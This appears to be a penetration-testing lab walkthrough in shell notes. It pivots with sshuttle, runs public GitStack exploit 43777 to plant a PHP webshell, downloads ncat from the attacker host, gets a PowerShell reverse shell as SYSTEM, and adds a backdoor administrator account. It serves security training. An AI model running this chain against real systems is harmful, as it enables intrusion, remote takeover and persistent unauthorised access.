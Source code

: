 ```shell
sshuttle -r root@10.200.81.200 --ssh-cmd "ssh -i id_rsa" 10.200.81.0/24 -x 10.200.81.200
#establish proxy in 10.200.81.0/24 network with server 10.200.81.200
#-x to exclude server from subnet

searchsploit gitstack
#shows exploits

searchsploit -m 43777
#copies the exploit

dos2unix ./43777.py
#convert DOS line endings in local exploit to Linux line endings

vim 43777.py
#add python2 shebang
#edit IP to target IP
#edit backdoor file name to exploit-sv.php

./43777.py
#running the exploit
#we get 'whoami' executed

#backdoor has been uploaded
curl -X POST http://10.200.81.150/web/exploit-sv.php -d "a=whoami"

curl -X POST http://10.200.81.150/web/exploit-sv.php -d "a=hostname"

curl -X POST http://10.200.81.150/web/exploit-sv.php -d "a=systeminfo"

#to check if target is allowed to connect to external machines

#on attacker machine
sudo tcpdump -i tun0 icmp

#ping from target to attacker using backdoor webshell
curl -X POST http://10.200.81.150/web/exploit-sv.php -d "a=ping -n 3 10.50.82.104"
#0 packets make it to listener

#we can use nc to get shell on some port
#as server is using centos, we need to disable port on firewall-cmd
#in root ssh session
firewall-cmd --zone=public --add-port 23337/tcp

#get ncat binary from attacker machine
curl 10.50.82.104/ncat -o /tmp/ncat-sv && chmod +x /tmp/ncat-sv

./ncat-sv -nvlp 23337
#prod-serv listening on port 23337

#on attacker machine
#use powershell reverse-shell one-liner with webshell using curl
curl -X POST http://10.200.81.150/web/exploit-sv.php -d "a=<URL-encoded command>"

#we get PS reverse shell on our webserver
whoami
#nt authority\system

#stabilisation
#add user
net user sv Password3 /add

net localgroup Administrators sv /add

```